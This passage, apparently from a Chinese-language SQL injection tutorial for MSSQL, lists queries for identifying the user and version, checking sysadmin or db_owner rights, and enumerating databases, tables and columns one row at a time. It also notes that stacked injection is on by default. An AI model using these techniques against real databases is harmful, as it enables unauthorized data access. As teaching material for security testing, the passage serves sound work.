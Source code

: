 ## (2) 基础SQL 注入

mssql 总体与 mysql差不多，但很多细节不同，没有`show`,`limit`,`group_concat`

```sql
select user
select @@version
select db_name()
```

查看权限

```sql
select IS_SRVROLEMEMBER('sysadmin')=1-- //sa
select IS_MEMBER('db_owner')=1-- // dbo
select IS_MEMBER('public')=1-- //public
```

查询所有数据库 ：
```sql
select name from master.dbo.sysdatabases;
```

查询用户表 ：
```sql
select  name from sysobjects where xtype='u'
```

由于缺少关键字没法把查询结果合并成一列，因此都采逐个查询方式

查询所有数据库
```sql
select top 1 name from master..sysdatabases where name not in (select top N name from master..sysdatabases order by name) order by name
```

![Uo7i1H.png](https://s1.ax1x.com/2020/07/21/Uo7i1H.png)

![Uo7Fcd.png](https://s1.ax1x.com/2020/07/21/Uo7Fcd.png)

查询所有表

```sql
select top 1  name from db..sysobjects where  xtype=char(85) and name not in (select top N name from db..sysobjects where xtype=char(85) )
```

查询字段
```sql
select top 1  COLUMN_NAME  from  test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME not in (select top N  COLUMN_NAME  from  test.information_schema.columns where TABLE_NAME='users')
```

## (3) 其他

### ① 堆叠注入
默认开启

